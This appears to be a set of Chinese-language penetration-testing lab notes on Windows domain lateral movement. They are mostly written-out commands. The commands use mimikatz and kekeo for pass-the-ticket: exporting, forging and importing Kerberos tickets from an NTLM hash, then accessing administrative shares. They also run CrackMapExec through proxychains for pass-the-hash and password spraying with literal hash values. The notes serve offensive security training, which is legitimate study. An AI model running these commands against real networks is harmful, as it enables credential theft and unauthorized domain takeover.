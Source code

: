 [![p9960Yj.png](https://s1.ax1x.com/2023/04/16/p9960Yj.png)](https://imgse.com/i/p9960Yj)

~~~
shell klist purge
//导入票据
mimikatz kerberos::ptc TGT_administrator@god.org.ccache
~~~

[![p99cENQ.png](https://s1.ax1x.com/2023/04/16/p99cENQ.png)](https://imgse.com/i/p99cENQ)

~~~
//2.利用kekeo(高权限，需NTLM)-利用获取的NTLM生成新的票据尝试认证   这不是漏洞，只是票据生成
因为当前主机肯定之前与其他主机连接过，所以本地应该生成了一些票据，
我们可以导出这些票据，然后再导入票据，利用。该方法类似于cookie欺骗
缺点：票据是有有效期的，所以如果当前主机在连接过域控的话，有效期内可利用。
//上传kekeo然后执行，生成TGT_Administrator@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi
生成票据：
shell kekeo "tgt::ask /user:Administrator /domain:god.org /ntlm:069f3f91c44c631880d58af546516f45" "exit"
~~~

[![p99chb8.png](https://s1.ax1x.com/2023/04/16/p99chb8.png)](https://imgse.com/i/p99chb8)

~~~
导入票据：shell kekeo "kerberos::ptt TGT_Administrator@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi" "exit"
查看票据：mimikatz kerberos::list   powershell klist purge
利用票据连接：shell dir \\192.168.52.138\c$
注意：成功不成功看ntlm哈希值的正确性
~~~



~~~
3、mimikatz(高权限,需Ticket)-利用历史遗留的票据重新认证尝试
导出票据：
mimikatz sekurlsa::tickets /export
导入票据：
mimikatz kerberos::ptt C:\Users\webadmin\Desktop\[0;22d3a]-2-1-40e00000-Administrator@krbtgt-god.org.kirbi
查看票据：shell klist
利用票据连接：shell dir \\owa2010cn-god\c$
注意：成功不成功看当前主机有没有被目标连接过



#域横向移动-PTH-Proxychains&CrackMapExec
CrackMapExec
Github：https://github.com/Porchetta-Industries/CrackMapExec
官方手册：https://mpgn.gitbook.io/crackmapexec/
部案例：https://www.freebuf.com/sectool/184573.html
下载对应release，建立socks连接，设置socks代理，配置规则，调用！
1、Linux Proxychains使用
代理配置：Proxychains.conf
代理调用：Proxychains 命令
2、密码喷射-域用户登录PTH：
proxychains python cme smb 192.168.3.21-32 -u user.txt -H 518b98ad4178a53695dc997aa02d455c #域用户HASH登录
proxychains python cme smb 192.168.3.21-32 -u administrator -H 518b98ad4178a53695dc997aa02d455c --local-auth #本地用户HASH登录
~~~
